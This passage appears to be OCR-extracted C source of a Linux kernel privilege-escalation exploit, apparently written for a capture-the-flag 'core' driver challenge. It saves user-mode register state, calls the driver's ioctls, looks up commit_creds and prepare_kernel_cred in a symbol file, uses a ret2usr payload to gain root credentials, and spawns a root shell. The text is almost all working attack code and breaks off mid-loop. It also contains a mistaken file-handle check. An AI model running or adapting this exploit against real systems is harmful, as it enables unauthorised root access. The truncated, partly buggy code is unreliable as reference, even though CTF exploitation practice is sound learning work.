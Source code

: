 ```c
size_t user_rflags;
void save_status(void){
    __asm__(
        "mov user_cs,cs;"
        "mov user_ss,ss;"
        "mov user_sp,rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void get_root_shell(void){
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }
    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

//ret2usr
void get_root_privilege(){
    //printf("use ret2usr\n"); //don't use user func in kernel space!
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

//#include "kernel_module.c"

void core_read(int fd,char * buf){
    ioctl(fd,0x6677889B,buf);
}
void core_set(int fd,size_t off){
    ioctl(fd,0x6677889C,off);
}
void core_copy_func(int fd,size_t nbyte){
    ioctl(fd,0x6677889A,nbyte);
}

int main(){
    save_status();
    int fd = open("/proc/core",O_RDWR);
    if(fd<0){
        printf("open proc failed!\n");
        exit(-1);
    }
    FILE * sym_fd = fopen("/tmp/kallsyms","r");
    if(fd<0){
        printf("open symbolic_table failed!\n");
        exit(-2);
    }
    char buf[50];
    char type[10];
    size_t addr;
    printf("start search addr!\n");
    while(fscanf(sym_fd,"%llx %s %s",&addr,type,buf)){
        if(commit_creds&&prepare_kernel_cred){
            break;
        }
        if(!commit_creds && !strcmp(buf,"commit_creds")){
```